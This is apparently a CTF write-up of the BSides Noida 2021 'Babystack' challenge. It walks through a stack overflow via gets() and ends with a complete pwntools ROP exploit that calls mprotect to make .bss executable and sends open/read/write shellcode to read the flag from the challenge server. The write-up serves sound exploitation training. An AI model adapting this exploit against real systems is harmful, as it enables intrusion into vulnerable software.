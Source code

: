 # Babystack

Okay so this was a ROP based challenge in BSides Noida '21 CTF. At the time of the CTF, I wasn't really able to solve this challenge. However after trying again, I did get a solution.

Before we dive right in, let's check some preliminary conditions and permissions.

```babystack.out: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, BuildID[sha1]=07e1b7ffbb8cbb81b3b714c0187e30dd5f6e2a0d, for GNU/Linux 3.2.0, not stripped```
```
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : disabled
RELRO     : Partial
```
As we can see, it is a 64 bit, statically linked file, with canary and nx enabled. Therefore, to inject a shellcode, we will need an executable stack which isn't possible at the current moment. Let's dive right in to know more.

```int __cdecl main(int argc, const char **argv, const char **envp)
{
  u32 inp[16]; // [rsp+0h] [rbp-40h] BYREF

  apply_seccomp(argc, argv, envp);
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  gets(inp);
  return 0;
}
```

From the above decompiled binary, we see the obvious vulnerability "gets" and use of "seccomp" which prevents us from using syscalls other than read, write and open. 
Upon analyzing the binary further we can find mprotect function which basically changes perissions of the .bss section. This would majorly help us in writing a shellcode as the .bss section already has permissions for read and write. Making it executable would help us injecting a shellcode. 
```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x00401000         0x0048d000         r-xp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x0048d000         0x004b5000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b5000         0x004b9000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b9000         0x004bc000         rw-p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out  <-- .bss section with read and write permissions only. 
0x004bc000         0x004df000         rw-p	[heap]
0x00007ffff7ffb000 0x00007ffff7ffe000 r--p	[vvar]
0x00007ffff7ffe000 0x00007ffff7fff000 r-xp	[vdso]
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 --xp	[vsyscall]
```

As we can see, using mprotect(), if we change the permissions of the .bss section to "rwx", we can get our shellcode executed.

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x00400000         0x00401000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x00401000         0x0048d000         r-xp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x0048d000         0x004b5000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out
0x004b5000         0x004b9000         r--p	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out  
0x004b9000         0x004bc000         rwxp	/home/shravya/bi0s/pwn/bsidesCTF/babystack.out  <--- .bss section with read, write and executable permissions.
0x004bc000         0x004df000         rw-p	[heap]
0x00007ffff7ffb000 0x00007ffff7ffe000 r--p	[vvar]
0x00007ffff7ffe000 0x00007ffff7fff000 r-xp	[vdso]
0x00007ffffffde000 0x00007ffffffff000 rw-p	[stack]
0xffffffffff600000 0xffffffffff601000 --xp	[vsyscall]
```

To do that, we need to note a few things:
- buffer size is 0x40.
- Use an address in .bss section with "rw" permissions and make it executable as well.
- in order to write the shellcode in .bss section, we need to make use of gets() in .bss section.

Firstly, in order to change the permissions, we may do the following:
```
from pwn import *
context.arch = 'amd64'

#p = process('./babystack.out', level = "debug")
p = remote('34.136.150.230', 49156)
#gdb.attach(p)

pop_rax = p64(0x0000000000410da4)
pop_rdi = p64(0x00000000004018f4)
pop_rsi = p64(0x000000000040970e)
pop_rdx = p64(0x000000000040182f)

addr_rdi = p64(0x4b9000)
gets_addr = p64(0x40bd70)
mprotect = p64(0x0000000000443af0)

buf = 'a'*0x48

payload = buf
payload += pop_rdi
payload += addr_rdi
payload += gets_addr# to write shell code in .bss section
payload += pop_rdi + addr_rdi + pop_rsi + p64(0x3000) + pop_rdx + p64(0x7)
payload += mprotect# execute mprotect to make .bss section executable
payload += addr_rdi
```
This will make sure the .bss section has executable permissions. 

Since "seccomp" is used, we can only make use of read, write and open syscalls. Therefore we may write our shellcode as:
```
shell = shellcraft.open("flag.txt", 0, 0)
shell += shellcraft.read("rax", 0x4b9000, 200)
shell += shellcraft.write(1, 0x4b9000, 200)
```

Now all we need to do is send the payload and give the shell!

## Exploit:
Here's the complete exploit:

```
from pwn import *
context.arch = 'amd64'

#p = process('./babystack.out', level = "debug")
p = remote('34.136.150.230', 49156)
#gdb.attach(p)

pop_rax = p64(0x0000000000410da4)
pop_rdi = p64(0x00000000004018f4)
pop_rsi = p64(0x000000000040970e)
pop_rdx = p64(0x000000000040182f)

addr_rdi = p64(0x4b9000)
gets_addr = p64(0x40bd70)
mprotect = p64(0x0000000000443af0)

buf = 'a'*0x48

payload = buf
payload += pop_rdi
payload += addr_rdi
payload += gets_addr# to write shell code in .bss section
payload += pop_rdi + addr_rdi + pop_rsi + p64(0x3000) + pop_rdx + p64(0x7)
payload += mprotect# execute mprotect to make .bss section executable
payload += addr_rdi

shell = shellcraft.open("flag.txt", 0, 0)
shell += shellcraft.read("rax", 0x4b9000, 200)
shell += shellcraft.write(1, 0x4b9000, 200)

sleep(0.1)
p.sendline(payload)
sleep(0.1)
p.sendline(asm(shell))

p.interactive()
```

## Flag:
```BSNoida{y0u_4r3_4_b4by_pwn3r_n0w_C7A5}```

